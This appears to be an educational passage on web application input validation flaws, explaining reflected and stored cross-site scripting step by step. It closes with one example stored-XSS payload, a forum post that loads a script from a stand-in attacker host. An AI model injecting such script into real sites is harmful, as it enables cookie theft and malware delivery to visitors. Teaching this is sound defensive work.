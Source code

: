  The HTTP/HTTPS web protocol is based on servers responding to client requests. A developer can extend the basic protocol with software code and information stored in databases to implement a dynamic web app, rather than simply returning a static pages and graphics. A web application can use to methods of running code: 
* Server-side code is run on the HTTP/HTTPS web server to process the request and build the response before it is sent to the client.
* Client-side code runs within the web browser software on the client machine to modify the web page before it is displayed to the user or to modify requests made to the server.
Most applications depend on user input. One of the most widespread vulnerabilities in web apps is failure to validate this input properly. For example, the user might need to sign in using an email address and password, So the web app presents two text-box fields for the user to input those values.
if a threat actor can send a script via the username field and make the server or client execute that code, the web app has an input validation vulnerability 

A Cross-site scripting XSS attack exploits the fact that the browser is likely to trust scripts that appear to come from a site that user has chosen to visit. XSS inserts a malicious script that appears to be part of the trusted site. A non persistent type of XSS attack would proceed as follows: 

1. The attacker identifies an input validation vulnerability 
2. The attacker crafts a URL to perform code injection against the trusted site. This could be coded in a link to the attackers site from the trusted site or a link in a phishing email message.
3. When the user opens the link, the trusted site returns a page containing the malicious code injected by the attacker. As the browser is likely to be configured to allow the site to run scripts, the malicious code will execute.
4. The malicious code could be used to deface the trusted site (by adding any sort of arbitrary HTML code), steal data from the user's cookies, try to intercept information entered in a form, or try to install malware. The crucial point is that the malicious code runs in the clients browser with the same permission level as the trusted site.
This type of XSS attack is nonpersistent because at no point is data on the web server changed. A stored/persistent XSS attack aims to insert code into a back-end database or content management system used by the trusted site. The threat actor may submit a post to a bulletin board with a malicious script embedded in the message, for instance. When other users view the message, the malicious script executed. For example, with no input sanitization, a threat actor could type the following into net post text field. 

```
Check out this amazing <a href="https://trusted.foo">website</a><script src="https://badsite.foo/hook.js"></script>.
```

Users viewing the post will have the malicious script hook.js execute in their browser.
